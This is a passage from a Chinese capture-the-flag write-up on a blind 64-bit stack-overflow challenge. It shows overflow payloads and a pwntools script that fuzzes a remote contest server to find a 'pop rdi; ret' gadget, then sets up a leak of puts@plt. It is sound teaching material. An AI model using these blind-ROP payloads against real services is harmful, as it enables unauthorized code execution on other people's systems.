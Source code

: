  分析:
 - 0x40070c --> 什么都没有收到的情况是因为：返回到了某个需要参数输入的函数，正在等待参数输入
 - 0x400711 --> 打印出'No password,no game'的情况是因为：又返回到了主函数内，从新进行了一遍主函数

**得出结论：**函数的主代码段就在0x400700附近，因此可以大大缩小了fuzz的范围。0x400711是一个位于主函数中地址，返回到该地址可以成功的输出'No password,no game'


#### 4. 找到'pop rdi,ret'的地址
因为是64位程序，要利用最取巧的方法就是找到'pop rdi,ret'的地址,接下来就通过fuzz找到该地址。

在64bit程序中，通常存在一个'pop r15；ret'，对应的字节码为'41 5f c3'，后两字节码'5f c3'对应的汇编为'pop rdi;ret'。当一个地址满足如下三个payload都能正常打印'NO password,no game'时，就可以得到一个'pop rdi;ret'的地址。

```python
Payload1 = 'a'*72 + p64(addr-1)+p64(0)+p64(0x400711)       #pop r15,ret
Payload2 = 'a'*72 + p64(addr)+p64(0)+p64(0x400711)         #pop rdi,ret
Payload3 = 'a'*72 + p64(addr+1) +p64(0x400711)             #ret
```
fuzz代码如下：

```python
from pwn import *
context.log_level = 'debug'
def exp1():
    io = remote('115.28.78.54', 13455)
    io.recvuntil('token:')
    io.sendline('b66888c818c08d932ea91b8d6a1f122c2y7ZAdbh')
    base = 0x400000
    for i in range(0x7c0,0x1000):
        payload1 = 'a'*72+p64(0x0400000+i-1)+p64(0)+p64(0x400711)
        payload2 = 'a'*72+p64(0x0400000+i)+p64(0)+p64(0x400711)
        payload3 = 'a'*72+p64(0x0400000+i+1)+p64(0x400711)
        print 'i='+hex(base+i)
        io.recvuntil('WelCome my friend,Do you know password?')
        io.sendline(payload1)
        print io.recvlines(10,timeout=1)
        io.recvuntil('WelCome my friend,Do you know password?')
        io.sendline(payload2)
        print io.recvlines(10,timeout=1)
        io.recvuntil('WelCome my friend,Do you know password?')
        io.sendline(payload3)
        print io.recvlines(10,timeout=1)

    io.interactive()
exp1()
```
经过测试发现了0x4007c3这个地址满足以上三个条件，得到0x4007c3地址就是一个'pop rdi,ret'地址
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-12-03-Hctf-fuzzPwn/4.png)

#### 5. 寻找输出函数的地址
接下来需要找到有输出功能函数(如puts)的plt表的地址，构造：

```python
payload = 'a'*72 + p64(pop_rdi_ret) +p64(0x400000)+p64(addr)
```
如果程序打印前4个字节为'\x7fELF'，则addr为puts_plt
